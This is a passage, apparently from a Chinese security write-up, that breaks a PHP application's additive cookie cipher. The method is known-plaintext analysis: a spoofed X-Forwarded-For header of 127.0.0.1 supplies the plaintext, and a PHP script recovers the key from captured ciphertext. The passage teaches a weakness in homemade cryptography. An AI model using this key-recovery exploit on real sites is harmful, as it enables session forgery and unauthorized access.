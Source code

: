 关键在与for循环，encode方法就是将明文每32位+key的ascii输出得到密文，decode就是将密文每32位-key的ascii输出 得到明文，就相当于是a+b=c ，key是等于密文-明文

‍

所以就可以逆推出密文，因为我们可以控制的IP，那我们就可以通过密文和明文的比对来吧Key给逆推出来，首先先伪造出127.0.0.1

`X-FORWARDED-FOR: 127.0.0.1`​

明文就为

```php
s:9:"sessionip";s:9:"127.0.0.1";
```

那我们就要选取密文了

得到的密文为

```php
%2592%25A2%25A4%25A0%25F3%25A9%25AE%25A2%259D%2599%25C5%25DD%25E7%25D9%25DF%25D8%25C2%25D9%259DVk%25E9%25A8%259AS%25B3e%25C0%2582%25AD%2591kf%259F%25D4%259B%25A8m%25DA%25A0%25C4%25AA%2586%25DA%25A4%259D%25D8%25A0%25B5%25D4%259Cl%2591%25D7%25D0%25A0V%25B1%25A9%2580%258C%25BE%2598ok%258A%25E4%25CB%25EB%25A9%25DD%25D8%25D1%25E0%25C2%259A%25AF%25D9%25B0%25A2%258E%2592jfg%25A4%259E%2595Q%25A7t%2580%258C%25BE%2598gg%25A2%2593%25D9%25DD%25A9%25E7%25D2%25D2%25E5%25C6%25E1%25E1%25CB%25E2%25D2%25C1%25D9%25ADVk%25DF%25A8%2598X%25A9z%258E%2584%257B%2590ij%25A3%25EE
```

先URL解码一次

```php
%92%A2%A4%A0%F3%A9%AE%A2%9D%99%C5%DD%E7%D9%DF%D8%C2%D9%9DVk%E9%A8%9AS%B3e%C0%82%AD%91kf%9F%D4%9B%A8m%DA%A0%C4%AA%86%DA%A4%9D%D8%A0%B5%D4%9Cl%91%D7%D0%A0V%B1%A9%80%8C%BE%98ok%8A%E4%CB%EB%A9%DD%D8%D1%E0%C2%9A%AF%D9%B0%A2%8E%92jfg%A4%9E%95Q%A7t%80%8C%BE%98gg%A2%93%D9%DD%A9%E7%D2%D2%E5%C6%E1%E1%CB%E2%D2%C1%D9%ADVk%DF%A8%98X%A9z%8E%84%7B%90ij%A3%EE
```

这个就是加密过后的结果，那么我们就要写出逆推脚本，来获取32位可控明文和密文来进行key的推算

```php
// 可控32位明文  :"sessionip";s:9:"127.0.0.1";s:1 

// 密文只能猜测以32位为倍数

function reverse($payload1,$payload2)
{
    $il = strlen($payload1);
    $key= "";
    $kl = 32;
    for($i = 0; $i &lt; $il; $i++)
    {
        $p = $i%$kl;
        $key .= chr(ord($payload1[$i])-ord($payload2[$p]));
    }
    return $key;
}
$info="%92%A2%A4%A0%F3%A9%AE%A2%9D%99%C5%DD%E7%D9%DF%D8%C2%D9%9DVk%E9%A8%9AS%B3e%94%B3%AF%8F%9B%94%99%A8%CB%D9%97%AB%9A%C4%AF%82%AF%D6%9E%D8%CE%87%D2%9Df%92%AD%A2%CBR%DD%A8%80%8C%BE%98ok%8A%E4%CB%EB%A9%DD%D8%D1%E0%C2%9A%AF%D9%B0%A2%8E%92jfg%A4%9E%95Q%A7t%80%8C%BE%98gg%A2%93%D9%DD%A9%E7%D2%D2%E5%C6%E1%E1%CB%E2%D2%C1%D9%ADVk%DF%A8%98X%A9y%96%88%82%94ng%A3%EE";
$info = urldecode($info);
$info = urldecode($info);
$info = substr($info,64,32);
echo reverse($info,':"sessionip";s:9:"127.0.0.1";s:1');
```
